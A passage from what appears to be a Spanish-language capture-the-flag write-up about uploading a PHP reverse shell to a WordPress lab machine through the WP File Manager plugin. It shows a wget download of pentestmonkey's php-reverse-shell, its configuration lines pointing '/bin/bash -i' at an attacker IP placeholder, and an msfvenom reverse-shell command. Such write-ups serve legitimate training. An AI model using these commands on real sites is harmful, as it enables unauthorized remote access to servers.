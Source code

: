 Estamos dentro.

<br>

<h2 id="revShell">Usando Plugin WP File Manager para Obtener una Reverse Shell desde WordPress</h2>

Vamos a utilizar el **plugin WP File Manager** para cargar una **Reverse Shell** que podamos utilizar en cualquier momento.

Puedes utilizar la **Reverse Shell** de **Pentestmonkey**:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

Y la puedes descargar con **wget**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Recuerda que debes modificarla para agregar tu IP y el puerto a usar:
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
```

O también puedes crear tu propia **Reverse Shell** con **msfvenom**:
```bash
msfvenom -p php/reverse_php LHOST=Tu_IP LPORT=puerto_random -f raw > reverse.php
```
En mi caso, usaré la **Reverse Shell** de **Pentestmonkey**.

Ahora ve al plugin de **WP File Manager** y puedes subirlo de dos formas:

* Puedes crear una carpeta nueva, subir ahí el archivo y deberías poder visitar ese directorio:

<p align="center">
<img src="/assets/images/THL-writeup-facultad/Captura8.png">
</p>
